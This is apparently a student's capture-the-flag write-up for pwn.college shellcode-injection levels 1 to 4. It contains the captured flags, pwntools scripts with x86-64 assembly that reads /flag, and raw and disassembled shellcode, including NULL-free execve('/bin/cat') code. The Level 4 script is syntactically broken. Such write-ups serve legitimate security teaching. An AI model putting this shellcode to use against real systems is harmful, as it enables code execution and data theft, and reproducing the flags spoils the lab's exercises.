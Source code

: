 # Level 1	

**Flag:** `pwn.college{YvajjOW2LxGo54Yw6pt32rm-9hH.01NxIDL3AjN1czW} `

Approach

- step 1<br>
Referred from what Yan from pwncollege taught in the intro. Wrote the following python script with the assembly code of how I wanna use the sendfile command as per the chal desc.

```
from pwn import *

context.arch='amd64'
context.os='linux'

asmc='''
    mov rax, 0x00000067616c662f         ; /flag
    push rax                            

    mov rdi, rsp                                   
    mov rsi, 0                          
    mov rax, 2                          
    syscall

    mov rdi, rax                        
    mov rsi, rsp                        
    mov rdx, 1000                       
    mov rax, 0                          
    syscall

    mov rdi, 1                          
    mov rsi, rsp                        
    mov rdx, rax                        
    mov rax, 1                          
    syscall

    mov rdi, 40                        
    mov rax, 60                         
    syscall
'''

sc=asm(asmc)
print(sc)
```

- step 1<br>
`
echo -en 'H\xb8/flag\x00\x00\x00PH\x89\xe7H\xc7\xc6\x00\x00\x00\x00H\xc7\xc0\x02\x00\x00\x00\x0f\x05H\x89\xc7H\x89\xe6H\xc7\xc2\xe8\x03\x00\x00H\xc7\xc0\x00\x00\x00\x00\x0f\x05H\xc7\xc7\x01\x00\x00\x00H\x89\xe6H\x89\xc2H\xc7\xc0\x01\x00\x00\x00\x0f\x05H\xc7\xc7(\x00\x00\x00H\xc7\xc0<\x00\x00\x00\x0f\x05'
` was the shellcode.


<br>
<br>

# Level 2	

**Flag:** `pwn.college{U2m9XCBD29YjCItiC9cjHnlcsod.0FOxIDL3AjN1czW} `

Approach

- step 1<br>
The challenge is the same as before, just that the program skips 2048 lines, so we have to add nop sleds such that the necessary part of the shellcode gets executed.


```
from pwn import *

context.arch='amd64'
context.os='linux'
asmc='''
    .rept 2048
        nop
    .endr
    mov rax, 0x00000067616c662f    ; /flag     
    push rax                            

    mov rdi, rsp                                   
    mov rsi, 0                          
    mov rax, 2                          
    syscall

    mov rdi, rax                        
    mov rsi, rsp                        
    mov rdx, 1000                       
    mov rax, 0                          
    syscall

    mov rdi, 1                          
    mov rsi, rsp                        
    mov rdx, rax                        
    mov rax, 1                          
    syscall

    mov rdi, 40                        
    mov rax, 60                         
    syscall
'''


sc=asm(asmc)
print(sc)


```


<br>
<br>

# Level 3	

**Flag:** `pwn.college{QqlcAkceUM88lJIt4GZV7utuMWO.0VOxIDL3AjN1czW}`

Approach

- step 1<br>
According to the chal, our written shell code must have 0 NULL bytes. I used Shellcraft to make my script which gave me the shellcode to bring about this.I later did some research and found out that I had to give in /bin/cat as an argument to read the flag! 

```
      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x0000000026c95000 | 6a 01                                         | push 1
0x0000000026c95002 | fe 0c 24                                      | dec byte ptr [rsp]
0x0000000026c95005 | 48 b8 2f 62 69 6e 2f 63 61 74                 | movabs rax, 0x7461632f6e69622f
0x0000000026c9500f | 50                                            | push rax
0x0000000026c95010 | 48 89 e7                                      | mov rdi, rsp
0x0000000026c95013 | 48 b8 01 01 01 01 01 01 01 01                 | movabs rax, 0x101010101010101
0x0000000026c9501d | 50                                            | push rax
0x0000000026c9501e | 48 b8 01 2e 67 6d 60 66 01 01                 | movabs rax, 0x10166606d672e01
0x0000000026c95028 | 48 31 04 24                                   | xor qword ptr [rsp], rax
0x0000000026c9502c | 48 b8 2f 62 69 6e 2f 63 61 74                 | movabs rax, 0x7461632f6e69622f
0x0000000026c95036 | 50                                            | push rax
0x0000000026c95037 | 31 f6                                         | xor esi, esi
0x0000000026c95039 | 56                                            | push rsi
0x0000000026c9503a | 6a 11                                         | push 0x11
0x0000000026c9503c | 5e                                            | pop rsi
0x0000000026c9503d | 48 01 e6                                      | add rsi, rsp
0x0000000026c95040 | 56                                            | push rsi
0x0000000026c95041 | 6a 10                                         | push 0x10
0x0000000026c95043 | 5e                                            | pop rsi
0x0000000026c95044 | 48 01 e6                                      | add rsi, rsp
0x0000000026c95047 | 56                                            | push rsi
0x0000000026c95048 | 48 89 e6                                      | mov rsi, rsp
0x0000000026c9504b | 31 d2                                         | xor edx, edx
0x0000000026c9504d | 6a 3b                                         | push 0x3b
0x0000000026c9504f | 58                                            | pop rax
0x0000000026c95050 | 0f 05                                         | syscall
Executing shellcode!

pwn.college{QqlcAkceUM88lJIt4GZV7utuMWO.0VOxIDL3AjN1czW}

```

<br>
<br>

# Level 4	

**Flag:** `pwn.college{coKGrl-mfcOO_yHGIjdgYTuar1j.0FMyIDL3AjN1czW}`

Approach

- step 1<br>
Acc to the chal, the shellcode cant have any 'H' bytes.
I did some research on this and found out the 0x48 byte which is the hex form of H, is an operation code for 64 bit registers. So avoiding the use of 64-bit registers, and using 32-bit registers (starting with e), we can inject our shellcode and get the flag.

```
from pwn import *

context.arch='amd64'
context.os='linux'

asmc = ```
    xor eax, eax
    mov eax, 2
    lea edi, [rip + path]
    xor esi, esi
    syscall
    xor edi, edi
    mov dil, 1
    xor esi, esi
    mov sil, al
    xor edx, edx
    mov r10, 128
    mov al, 40
    syscall
path:
    .string "/flag"```
sc=asm(asmc
print(sc)

```



